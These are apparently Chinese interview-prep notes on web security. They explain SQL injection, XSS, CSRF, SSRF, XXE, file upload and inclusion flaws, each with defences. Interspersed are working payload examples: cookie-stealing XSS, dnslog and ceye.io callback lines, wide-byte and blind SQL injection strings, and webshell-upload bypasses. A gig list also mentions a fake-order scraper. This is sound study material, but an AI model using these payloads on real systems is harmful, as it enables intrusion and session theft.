


安全岗位
- TAGS: Career
信息安全面试问题总结
主要内容：
- XSS 防御相关
- CSRF 相关
- XXE 漏洞相关
- SQL 注入漏洞相关
- CRLF 注入
- SSRF
- WAF 绕过
- 浏览器安全
- php 安全
- java 家族安全
- 企业安全相关
- python
- 应急响应 or 红蓝对抗
- 安全开发
- 认证
初级渗透
- 基础漏洞类型原理及修复方案
- 功能漏洞-带有业务功能场景漏洞
- 发送验证码存在哪些漏洞
- 组件漏洞
- fastjson
- 中间件
- 信息收集
- google hacking
- 安全工具使用
项目？
进阶
- 代码审计
总结
- 所有的基础漏洞原理+修复方案清晰掌握
- 后渗透、提权、绕过waf、应急
- 代码审计，java, php
- 使用自动化工具进行代码审计，会自己搭建
- 使用python写脚本，爬虫，程序
- 大部分知名公开漏洞知道大概原理，会利用
- 把上述所有变成工作项目
安全工作岗位分类

- A区域-纯技术
安全设备管理员、分支机构安全管理员
对技术要求不高，只需要管理设备
C区域
技术要求高
- 创业公司骨干、安全分析、安全研发
B区域
技术要求不高、主要是非技术方面的沟通能力
- 销售、IT审计组长、安全审计
- 咨询顾问、IT内控合规、安全管理
- 企业安全负责人
D区域
技术要求高、沟通管理能力要求高
- CRO、法律合规风险管理部门负责人、CIO、CSO
- 大厂高P/高T
- 首席架构师、首席研究员
职业发展建议从C区域做起。
安全从业者职业发展路径

证书
cisp
cissp
国内最好有个cisp证书
简历
- 技能列表
- 项目
接单
1.挖src漏洞
综合性平台：补天、漏洞盒子、CNVD
独家SRC：华为、腾讯、360、阿里
2.接安全测试委托
接单网站
python接单
- 知乎网页数据采集 500
- 中青网数据抓取 750
- 爬虫程序采集网站上的数据 300
- 购物网站刷单爬虫 2000
- 贴吧网页数据采集 100
- 爬虫抓取今日头条数据 400
- 10W行数据表格处理 3000
- 当当网网站数据抓取 200
- 淘宝购物车数据采取 100
- 网站定制 闲鱼数据抓取采集数据分析 400
- 社交软件信息抓取 200
- 抓取WINDOWS下监控的应用软件数据 1500
- 空情网站数据获取开发 300
- 小蜜蜂app数据采集 100
- 哈罗摩托数据采集 300
- 抖音视频抓取 无水印 600
- 反编译一个python软件取源码 400
例：
- 制作交互界面 320 1天
- 抓取个性签名网 100 0.3天
- 抓取京东-方便面数据 150 3h
- 抓取淘宝-连衣裙数据 200 0.5天
- 房价信息获取 180 2h
- 抓取当当网 230 0.5天
合计 1180 3天
3.护网行为HW-红蓝对抗
蓝队需要驻场：初、中、高 1-5k/天
红队为远程和驻场：6-8k/天
4.参加CTF网络安全攻防大赛
初级渗透
基础漏洞类型原理及修复方案
SQL注入
- SQL注入原理
- 没有对用户的输入做严格的过滤和限制，直接把用户的输入拼接到了SQL语句中，并带入数据库执行
- SQL注入原因
采用字符串拼接的方式构造SQL语句
没有对用户输入的参数进行过滤
- 数据库种类
关系型数据库（SQL）：Access Mysql Mssql Oracle Postsql SQLite
非关系型数据库（NO SQL）：Mongodb. redis
- 常见数据库对应的端口
mysql（3306）、sql server（1433）、oracle（1521）、DB2（5000）、postgreSQL（5432）
NOSQL数据库： MongoDB（27017）、Redis（6379）
- Mysql注入点，用工具对目标站直接写入一句话，需要哪些条件？
- root权限以及网站的绝对路径
- SQL注入的流程
判断是否存在注入，并判断是字符型还是数字型
判断字段长度，回显位置
获取数据库信息
破解加密数据
提升权限/内网渗透
- 常见的网站服务器容器
- IIS、Apache、nginx、Lighttpd、Tomcat
- 如何手工快速判断目标站是windows还是linux服务器？
linux大小写敏感,windows大小写不敏感
ping命令：一般情况下 linux TTL<100. Windows. TTL.>100
- mysql的网站注入，5.0以上和5.0以下有什么区别
5.0以下没有information_schema这个系统表，无法列表名等，只能暴力跑表名
5.0以下是多用户单操作，5.0以上是多用户多操做。
- SQL注入的种类
- 数据类型 分类:
字符型：
http://127.0.0.1/sqli/Less-1/?id=1' #也可以?id=1' and'1''1= 来闭合数字型：
http://127.0.0.1/sqli/Less-2/?id=1 and 1=2 --+搜索型：先搜索 单引号,如果出错说明90%存在漏洞;再搜索%，如果正常返回 说明95%有漏洞
1%' and 1=1 and '%' ='1%' and 1=2 and '%' ='- 提交方式 分类：
GET：提交方式是 GET ,注入点的位置在 GET 参数部分
POST： POST 方式提交数据，注入点位置在 POST 数据部分，常发生在表单中
Cookie：HTTP 请求的时候会带上客户端的 Cookie, 注入点存在 Cookie 当中的某个字段中
HTTP头：注入点在 HTTP 请求头部的某个字段中。比如存在 User-Agent 字段中
- 注入方法 分类：
布尔盲注：
页面没有显示位，没有输出SQL语句执行错误信息，只能通过 页面返回正常不正常来判断是否存在注入，判断and两边的条件是否成立； 利用页面返回不同 逐个猜解数据
1' and length(database())=x # 判断数据库长度
1' and ascii(substr(database(),1,1))=100 # 判断数据库第一位
1' and (select count(table_name)from information_schema.tables where table_schema='dvwa')=2 # 表数量
时间盲注：
利用if，sleep，benchmark，笛卡尔积 看页面返回时间是否增加来判断
1' and sleep(5) # 判断为字符型
1' and if(length(database())=4,sleep(5),1)# 判断数据库长度
1' and if(ascii(substr(database(),1,1))=100,sleep(5),1) # 判断数据库第一个字母
报错注入：
页面会返回错误信息，且没有显示位，把注入语句的结果直接返回在页面中
常用：Extractvalue，updatexml，Floor, exp
其他：name_const, join, GeometryCollection, polygon, multipoint, multlinestring, multipolygon, linestring
concat：将多个字符串连接成一个字符串
count : 查询数量
联合查询注入：
union/union all；查询的【列数】和【数据类型】必须相同；页面必须有显示位
Union：不包括重复的值；Union all：允许重复的值
Goup_concat：把同一列的多行连接到一起，比如：1adminadmin,2gordonbGordon,
堆叠注入：
就是一堆 sql 语句(多条)一起执行，在 ; 结束一个sql语句后继续构造下一条语句
只有当调用的数据库函数支持执行多条sql语句时才能够使用
PHP页面调用sql语句时用的是mysqli_multi_query()函数，才可以使用堆叠注入
Mysql和Mssql 才可以用，Oracle直接报错
编码问题（宽字节 二次编码注入）
都是在面对PHP代码或配置，对输入（单引号）进行转义的时候，在处理用户输入数据时存在问题，可以绕过转义
宽字节注入（GBK编码处理编码的过程存在问题，可构造数据消除反斜杠\）
数据库使用了GBK编码，并且使用Addslashes函数在预定义字符 ’”\ null前面添加反斜杠\ ,导致引号闭合失败。由于\的16进制是%5C，所以在前面加上%df就变成%df%5C，变成一个繁体字，可以成功闭合引号
GBK编码下使用宽字节注入：%df' and 1=1 – + 回显正常 %df' and 1=2 – + 回显错误
说明存在sql注入，而且是宽字节注入
以下为URL编码：
%27----–—单引号 %20-----–—空格
%23------–—#号 %5c-------–—\反斜杠
addslashes()：返回在预定义字符之前添加反斜杠的字符串
宽字节注入防御
①使用mysql_ set_ charset(GBK)指定字符集 ②使用mysql_real _escape_string进行转义
二次注入
①插入恶意数据
在第一次进行数据库插入数据的时候，仅仅只是使用了addslashes对其中 的特殊字符进行了转义，但是addslashes有一个特点就是虽然参数在过滤 后会添加 “\” 进行转义，但是“\”并不会插入到数据库中，在写入数 据库的时候还是保留了原来的数据。
②引用恶意数据
在将数据存入到了数据库中之后，开发者就认为数据是可信的。在下一次 进行需要进行查询的时候，直接从数据库中取出了脏数据，没有进行进一 步的检验和处理，这样就会造成SQL的二次注入。
比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库 中；然后在下一次使用中在拼凑的过程中，就形成了二次注入。
二次编码注入（urldecode()与PHP本身处理编码时，两者配合失误，可构造数据消除\）
用户输入【1%2527】=>php自身编码，%25转换成%【1%27】=>php未检查到 单引号，不转义【1%27】=>遇到一个函数编码，使代码进行编码转换【1'】 =>带入sql语句=>能注入
方法：在注入点后键入%2527，然后按正常的注入流程开始注入
- Sql注入写shell：
1.Into outfile
2.Sqlmap –os-shell
- mysql内置的information_schema数据库中有三个表非常重要
1 schemata:表里包含所有数据库的名字
2 tables：表里包含所有数据库的所有的表，默认字段为table_name
3 columns:三个列非常重要
TABLE_SCHEMA：数据库名 / TABLE_NAME:表名 / COLUMN_NAME:字段名
- 如何判断是否存在SQL注入
and 1=1/and 1=2 回显页面不同
单引号或双引号判断
and sleep() 判断页面返回时间
- SQL注入如何防御？预编译的原理是什么呢？
代码层面
1.对输入进行严格的过滤和转义（正则表达式过滤）
2.使用预编译和参数化查询
预编译就是提前进行sql的编译，在sql语句执行之前就确定sql的语义，保 证用户输入的内容只当作变量执行，而不是sql语句执行。
数据库以参数化的形式进行查询，即使传递来的敏感字符也不会被执行，而是被当作参数处理；
是通过PreparedStatement和占位符来实现的，也就是说其后注入进来的参 数系统将不会认为它会是一条SQL语句，而默认其是一个参数，参数中的or 或者and 等就不是SQL语法保留字了
网络层面
利用WAF防御；使用安全的API
- SQL注入如何判断数据库类型？
注释符判断
/ * 是MySQL的注释符，返回错误说明该注入点不是MySQL
– 是Oracle和SQL Server的注释符，如果返回正常，说明为这两种数据库类型之一
； 是子句查询标识符，Oracle不支持多行查询，若返回错误，则说明很可能是Oracle数据库
函数判断, 如len()和length()，version()和@@version等
len()：mssql和mysql以及db2返回长度的函数
length()：Oracle和INFORMIX返回长度的函数
version()：MySQL查询版本信息的函数
@@version()：MySQL和SQL Server查询版本信息的函数
- 报错信息判断
- 默认端口判断
- 判断数据库类型语句
Oracle数据库
http://127.0.0.1/test.php?id=1 and (select count(*) from sys.user_tables)>0 and 1=1
Mysql数据库（版本5.0以上）
http://127.0.0.1/test.php?id=1 and (select count(*) from information_schema.TABLES)>0 and 1=1
mssql数据库
http://127.0.0.1/test.php?id=1 and (select count(*) from sysobjects)>0 and 1=1
- (no term)
SQL注入如何绕过？
大小写绕过(UNiOn)，双写绕过(ununionion)，编码绕过（base64、url全编码），内联注释绕过（/*! Union */）
【逗号绕过：join，from ； 空格绕过：/**/，%a0=空格，括号（），+加号； 引号绕过：16进制 】
【比较符><绕过：greatest（返回最大值），least（返回最小值）； 逻辑符号替换and=&& or=||，】
分块传输：通过在头部加入 Transfer-Encoding: chunked 之后，就代表这个报 文采用了分块编码。每个分块包含十六进制的长度值和数据，长度值独占一行， 长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用0独占一行表示 结束
参数污染 / 超大包传输:
XSS(跨站脚本攻击)部分
- XSS的原理是什么？
- 攻击者在WEB页面中插入恶意js代码，使用户在访问时触发，使其信息泄露
- XSS危害？
主要是盗取管理员的会话和cookie信息，钓鱼
D-doss攻击，网页挂马；传播跨站脚本蠕虫等
- XSS的三种类别有什么不同？
反射型：发出请求时，XSS代码出现在url中，作为输入提交到服务器，服务 器解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执 行XSS代码。这个过程像一次反射，所以叫反射型XSS
这种攻击方式往往具有一次性，只在用户单击时触发，需要诱骗用户点击。
数据流向是：浏览器 -> 后端 -> 浏览器
常见注入点： 网站的搜索栏、用户登录入口、输入表单等地方，常用来窃取客户端cookies或钓鱼欺骗。
存储型：攻击者已经通过XSS将恶意脚本放入服务器端(数据库，内存，文件 系统等)只要每次浏览这个网页就会触发恶意脚本。 浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器
常见注入点： 论坛、博客、留言板、网站的留言、评论、日志等交互处。
DOM型：基于DOM文档对象模型的一种XSS漏洞，是从客户端获得 DOM 中的数 据（如从 URL 中提取数据）并在本地执行；DOM型XSS其实是一种特殊类型 的反射型XSS，是基于js上的，不需要与服务器进行交互；纯前端的XSS漏洞， 直接通过浏览器进行解析，就完成攻击。
URL–>浏览器。javascript:alert("You are attacked !!")
- 反射型 存储型 DOM型 的区别
存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里
DOM 型 取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的 安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞
- 常用语句：
<script>alert(/xss/)</script> 弹窗 <script>confirm(/xss/)</script> 弹窗 <script>prompt(/xss/)</script> 弹窗 <script>alert(document.cookie)</script> 获取CK <img src = 1 onerror = alert(document.cookie)> 事件驱动获取CK <a href=javascript:alert(111)> <body onload=alert('XSS')> <div onclick="alert('xss')">事件绕过
- XSS盲打
将xss的攻击代码拼接到dnslog网址的高级域名上，就可以在用户访问的时候， 将他的信息带回来; 通过盲打，让触发者浏览器访问预设至的链接地址，如果 盲打成功，会在平台上收到如下的链接访问记录
先申请一个域名，向有XSS的地方注入下面语句
<img src=http://xss. j71zkv.dnslog.cn>对插入的地址进行请求，然后回看DNSlog平台，发现被解析
- XSS如何防御？（总体思路就是 对输入进行过滤，对输出进行编码）
- 对输入进行过滤（用户输入，URL参数，POST请求参数）：一般过滤掉双引号，单引号，尖括号，&符号
对输出进行HTML实体编码：双引号（”）"，左尖括号（<）<，右尖括号（>）：>
使脚本无法在浏览器中执行。php中的htmlspecialchars函数
- 添加HttpOnly：在cookie里面设置HttpOnly属性，那么js脚本将无法访问到 cookie，但是这个方法也只能是防御cookie劫持
- CSP内容安全策略：本质上是建立白名单，规定了浏览器只能够执行特定来
源的代码；即使发生了xss攻击，也不会加载来源不明的第三方脚本
CSP的分类：
1.Content-Security-Policy：配置好并启用后，不符合 CSP 的外部资源就会被阻止加载。
2.Content-Security-Policy-Report-Only：表示不执行限制选项，只是 记录违反限制的行为。它必须与report-uri选项配合使用
csp使用：
1.在HTTP Header上使用（首选）2.在HTML上使用
Httponly绕过
可以直接拿账号密码，cookie登录.
浏览器未保存读取密码:需要xss产生于登录地址，利用表单劫持
浏览器保存账号：产生在后台的XSS，例如存储型XSS
CVE-2012-0053
Apache服务器2.0-2.2版本存在个漏洞 CE-2012-0053:攻击者可通过向网站 植人超大的Cookie,令其HTTP头超过Apache的LititRequestFieldSize (最 大请求长度，4192字节)，使得Apache返回400错误，状态页中包含了 HttpOnly 保护的Cookie。源代码可参见: htps:/ww.explwi db.com/exploits/18442/。
除了Apache，-些其他的 Web服务器在使用者不了解其特性的情况下，也很 容易出现HttpOnly保护的Cookie被爆出的情况，例如Squid等
PHPINFO页面/
无论是否设置了HttpOnly 属性，phpinfo() 函数都会输出当前请求上下文 的Cookie信息。如果目标网站存在PHPINFO页面，就可以通过 XMLHttpRequest请求该页面获取Cookie信息。
Flash/Java
安全团队seckb在2012年提出，通过Flash、Java 的一些API可以获取到HttpOnly Cookie, 这种情况可以归结为客户端的信息泄露，链接地址为: http://ckb.yehg.net/2012/0/xss-gaining-g aCss-t-ttponly-cookie.html。
- Xss设置了httponly如何利用
CSRF(跨站请求伪造)
CSRF的原理
利用网站对于用户网页浏览器的信任，挟持用户当前已登陆的Web应用程序，去执行并非用户本意的操作
攻击者 盗用 用户未失效的身份认证信息（cookie、会话等），发送恶意请求
通常是伪造一个链接，然后欺骗目标用户点击，用户一旦点击，攻击也就完成了
- CSRF的防御方法有哪些？referer验证和token哪个安全级别高呢？
- 验证http Referer 字段：同源检测，Referer 指的是页面请求来源。意思 是，只接受本站的请求，服务器才做响应；如果不是，就拦截。Referer的 值是由浏览器提供的
- 在请求地址中添加Token并验证：在 HTTP 请求中以参数的形式加入一个随机产生的token；如果请求中没有 token 或者 token 内容不正确，则认为 CSRF 攻击而拒绝该请求
在http头中自定义属性并验证：
token安全等级更高。因为并不是任何服务器都可以取得referer，如果从 HTTPS跳到HTTP，也不会发送referer。并且Referer 的值是可以通过抓包 修改的，但是token的话，能保证其足够随机且不可泄露。(不可预测性原 则)
一般防护csrf的办法最常见的就是增加原始密码验证，短信验证、验证码验证，这样基本就很难进行scrf攻击了。
- CSRF如何判断
GET类型的CSRF的检测
如果有token等验证参数，先去掉参数尝试能否正常请求。如果可以，即存在CSRF漏洞
POST类型的CSRF的检测
如果有token等验证参数，先去掉参数尝试能否正常请求。如果可以，再去掉referer参数的内容，如果仍然可以，说明存在CSRF漏洞，如果直接去掉referer参数请求失败，这种还可以继续验证对referer的判断是否严格，是否可以绕过。
特殊情况的POST类型的CSRF检测
如果上述post方式对referer验证的特别严格，有的时候由于程序员对请求类型判断不是很严格，可以导致post请求改写为get请求，从而CSRF。直接以get请求的方式进行访问，如果请求成功，即可以此种方式绕过对referer的检测，从而CSRF。
CSRF与XSS区别
CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，实施破坏
CSRF需要用户先登录网站A,获取cookie; XSS不需要登录。
SSRF(服务端 请求伪造)部分
由于 服务端提供了从其他服务器应用获取数据的功能 ，但又没有对目标地址做过滤与限制，导致攻击者可以传入任意的地址 让后端服务器对其发起请求,并返回对该目标地址请求的数据
数据流: 攻击者–—>服务器-—>目标地址
比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等
危害
内外网的端口和服务扫描
攻击运行在内网或本地的应用程序
对内网web应用进行指纹识别，识别企业内部的资产信息
攻击内网的web应用主要是使用GET参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）
利用file协议读取本地敏感数据文件等
利用
File协议：从文件系统中获取文件内容，如file:///d:/etc/passwd
dict协议：字典服务器协议，用来获取目标服务器上运行的服务版本等信息
gopher协议：分布式的文档传递服务，使用SSRF结合gopher协议可以发送http、mysql等请求
ftp、ftps：FTP匿名访问、爆破
危险函数
file_get_contents() 对本地和远程的文件进行读取
fsockopen()
curl_exec()
绕过姿势
302跳转：可以使用重定向的方式绕过SSRF
短链接：制作一个短链接指向内网IP，如http://dwz.cn/11SMa –> http://127.0.0.1
利用@：如访问http://example.com@127.0.0.1
添加端口号：http://127.0.0.1:8080
IP地址的进制转换：8进制，16进制，10进制
dns解析：如果目标对域名或者IP进行了限制，那么可以使用dns服务器将自己的域名解析到内网ip
- 如何判断SSRF
- 回显判断：有返回请求结果 并会显示出来，这种比较好判断
- 延时对比：对比访问不同 IP/域名的访问时长，比如对百度与 Google（国内访问受限）的访问时间，访问百度的时间通常比Google快，若是则可能存在漏洞
- DNSlog请求检测：利用 DNSLog 服务生成一个域名用于伪造请求，看漏洞服务器是否发起 DNS 解析请求，若成功访问在 http://dnslog.cn 上就会有解析日志http://172.16.29.2/ssrf_test.php?url=http://02c6ot.dnslog.cn
- 访问日志检查：伪造请求到自己控制的公网服务器，然后在服务器上查看访问日志是否有来自漏洞服务器的请求，或者直接使用命令“nc -lvp”来监听请求。
- 漏洞位置
- 能够对外发起网络请求的地方
- 分享：通过URL地址分享网页内容
- 在线处理工具
- 转码服务
- 在线翻译
- 图片加载与下载：通过URL地址加载或下载图片
- 图片、文章收藏功能
- 未公开的api实现以及其他调用URL的功能
- 在线识图，在线文档翻译，分享，订阅等，这些有的都会发起网络请求。
- 根据远程URL上传，静态资源图片等，这些会请求远程服务器的资源。
- 数据库的比如mongodb的copyDatabase函数，这点看猪猪侠讲的吧，没实践过。
- 邮件系统就是接收邮件服务器地址这些地方。
- 文件就找ImageMagick，xml这些。
- 从URL关键字中寻找，比如：source,share,link,src,imageurl,target等。
- 防御
- 过滤返回的信息，把返回结果展示给用户之前先验证返回的信息是否符合标准
- 统一错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态
- 限制请求的端口，比如80,443,8080,8090
- 禁止不常用的协议 仅仅允许http和https请求。可以防止类似于file:///d:/,gopher:/,ftp:/等引起的问题
- 使用DNS缓存或者Host白名单的方式。
XML注入（XXE）XML是一种用来传输和存储数据的可扩展标记语言
原理
XML外部实体注入，由于在服务端开启了DTD外部引用 且 没有对DTD对象进行过滤的情况下, 导致可以利用DTD引用系统关键文件，漏洞触发的点往往是可以上传xml文件的位置
危害
1：读取任意文件 2：执行系统命令 3：探测内网端口 4：攻击内网网站
如何判断
有回显：抓包随意修改XML标签，看是否输出，有的话则存在XXE
无回显：换成自己申请的域名，然后提交，查看是否产生日志，有的话说明有XXE
<?xml version="1.0" ?> <!DOCTYPE r [ <!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://k720ih.ceye.io/test.txt"> ]> <r>&sp;</r>
- 防御
禁止外部实体加载：libxml_disable_entity_loader(true);将false不禁止外部实体加载，改为true禁止外部实体加载
//php: libxml_disable_entity_loader(true); //java: DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance(); dbf.setExpandEntityReferences(false); //Python： from lxml import etree xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
- 过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC
文件上传部分
文件上传漏洞原理
文件上传功能没有对上传的文件做合理严谨的过滤，导致用户可以利用此功能， 上传能被服务端解析执行的文件，并通过此文件获得执行服务端命令的能力。
文件上传危害
上传webshell,控制服务器、远程命令执行
上传系统病毒、木马文件进行挖矿、僵尸网络
进行提权操作
修改web页面，实现钓鱼、挂马等操作。
进行内网渗透。
- 文件上传 利用条件？
- 网站上传功能能正常使用
- 文件类型允许上传
- 传路径可以确定
- 文件可以被访问或者被包含
- 文件上传如何防护？
- 文件上传目录设置为不可执行：只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会受到影响，因此这一点至关重要。
- 判断文件类型：结合使用MIME Type、后缀检查等方式（白名单）
- 图片二次渲染：使用压缩函数或者resize函数，在处理图片的同时破坏图片中可能包含的HTML代码。
- 文件上传常见的绕过方法
- 客户端绕过（前端验证，还未发送数据包）
- 浏览器禁用JS脚本
- 利用 burp 抓包修改后缀名，先将文件重命名为js允许的后缀名 burp发送数据包时候改成我们想要的后缀
- 按F12直接删除代码中onsubmit事件中关于文件上传时验证上传文件的相关代码
- 服务端绕过
- 白名单：
- MIME绕过：修改为image/jpeg；image/png；image/gif等允许上传的MIME值；
%00截断：a.asp%00.jpg 就会变成a.asp，后面的.jpg就会被%00截断了。
有些时候数据包中必须含有上传文件后的目录情况才可以用
- 黑名单：
- 特殊文件名绕过：Phtml,php3,php5
- 配合解析漏洞绕过
- 后缀大小写绕过
- 双写绕过：pphphp
上传.htaccess绕过：先上传一个.htaccess文件，然后上传一句话木马
（.htaccess就是该目录的所有文件可以php文件执行）
- 空格绕过：后缀名加空格
- 点绕过：后缀名中增加.号，windows 系统中会自动去除最后的点号
:: $DATA绕过：在php+windows的情况下，文件名+“::$DATA”会把::$DATA之后的数据当成文件流处理，不会检测后缀名. 且保持"::$DATA"之前的文件。可在后缀名中加“::$DATA”绕过
- 检查内容：
- 二次渲染：根据用户上传的图片 网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，根据原有的图片新生成一个图片，将原始图片删除，将新图片添加到数据库中对于不同的图片，修改的位置还不一样
- 如何判断二次渲染：对比要上传图片与上传后的图片大小，编辑器打开图片查看上传后保留了拿些数据
- 绕过：通过对比上传前和上传后的两个文件，看图片的16进制编码，在没有改变的地方插入php一句话
图片码绕过：判断文件头信息，把一句话木马插入到图片中然后上传
getimagesize()，exif_imagetype()
- 其他：
- 条件竞争：先将文件上传到服务器，然后判断文件后缀是否在白名单里，如果在则重命名，否则删除，因此可以上传1.php只需要在它删除之前访问即可，可以利用burp的intruder模块不断上传，然后我们不断的访问刷新该地址即可；目的就是在文件还存在时执行一段php代码
- 二次渲染：根据用户上传的图片 网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，根据原有的图片新生成一个图片，将原始图片删除，将新图片添加到数据库中对于不同的图片，修改的位置还不一样
- 白名单：
- 客户端绕过（前端验证，还未发送数据包）
文件包含部分
原理
服务器解析执行php文件时能够通过包含函数加载另外一个文件中的php代码，当被包含的文件中存在木马时，也就意味着木马程序会在服务器上加载执行。
- 分类
- 本地文件包含：就是在网站服务器本身存在恶意文件，然后利用本地文件包含使用
- 远程文件包含：远程文件包含就是调用其他网站的恶意文件进行打开
文件包含的函数有哪些？include和require的区别
include( )：找不到被包含的文件，只会报错，但会继续运行脚本
include_once( )：功能与Include()相同，区别在于当重复调用同一文件时，程序只调用一次
require( )：找不到被包含的文件，报错，并且停止运行脚本
require_once( )：功能与require()相同，区别在于当重复调用同一文件时，程序只调用一次
区别
inlude :包含的文件不存在，程序会继续执行
require:包含文件不存在，程序停止执行
- 文件包含怎么利用
- 包含系统敏感文件：如/etc/passwd（用户信息）；/etc/shadow（密码文件）
- 配合文件上传图片码getshell
- 包含Apache日志文件：access.log
- 利用php伪协议进行攻击：php://input (将post请求的数据当作php代码执行，达到命令执行)； php://filter（可以获取指定文件源码）
php伪协议：
file:// 访问本地文件系统
http:// 访问 HTTPs 网址
ftp:// 访问 ftp URL
php:// 访问输入输出流
zlib:// 压缩流
data:// 数据
ssh2:// security shell2
expect:// 处理交互式的流
glob:// 查找匹配的文件路径
- 防御
- 设置白名单：限制被包含的文件只能在某一个文件夹内
- 关闭危险配置：PHP配置中php.ini关闭远程文件包含功能
- ( allow_url_include = Off allow_url_fopen= Off )
- 路径限制：禁止目录跳转字符，参数中不允许出现../之类的目录跳转符。
需要开启的配置
php.ini的allow_url_fopen （打开文件）和allow_url_include（引用文件）设置为On，不然会影响伪协议的使用。
会话固定
会话固定也可以是会话劫持的一种类型，主要目的是获得用户的合法会话。用户在登录前和登录后的session的id 不会改变，窃取用户的cookie,用于模仿合法用户，还可以强迫受害者使用攻击者设定的一个有效会话，以此来获得用户的敏感信息。
防御
在用户登录成功后重新创建一个session id
登录前的匿名会话强制失效
session id与浏览器绑定：session id与所访问浏览器有变化，立即重置
session id与所访问的IP绑定：session id与所访问IP有变化，立即重置
暴力破解
暴力破解又被称为穷举破解，即将密码进行逐个尝试直到找出真正的密码为止
- 防护手段：锁定账户 验证码
命令注入
由于web应用在服务器上拼接系统命令并且没有对用户的输入做严格的过滤造成的
技巧 &&（与） ||(或)
Windows系统支持的管道符如下：
“|”：直接执行后面的语句。
“||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
“&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
“&&”：前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
- Linux系统支持的管道符如下：
“;”：执行完前面的语句再执行后面的语句。
“|”：显示后面语句的执行结果
防御
白名单校验命令参数
代码执行
靠脚本代码调用操作系统的命令；当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞
- 常见的代码执行函数：
eval() assert() call_user_func() create_function() array_map()
- 防御
- 使用参数白名单 在代码或配置文件中设置可输入的参数白名单，如果不在白名单列表中则提示错误。
